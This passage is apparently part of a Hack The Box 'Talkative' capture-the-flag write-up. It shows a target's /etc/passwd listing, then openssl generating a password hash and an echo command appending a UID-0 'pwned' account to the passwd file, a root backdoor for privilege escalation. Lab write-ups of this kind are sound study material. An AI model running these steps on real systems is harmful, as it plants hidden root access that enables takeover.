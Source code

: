 ```shell
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:43:18(HKT)]
└> nano passwd
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:43:27(HKT)]
└> tail passwd 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash
```

**Append a line that creates a new user with root privilege:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:44:58(HKT)]
└> openssl passwd pwned
$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:45:35(HKT)]
└> echo 'pwned:$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0:0:0:pwned:/root:/bin/bash' >> passwd 
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:45:40(HKT)]
└> tail -n 2 passwd 
saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash
pwned:$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0:0:0:pwned:/root:/bin/bash
```

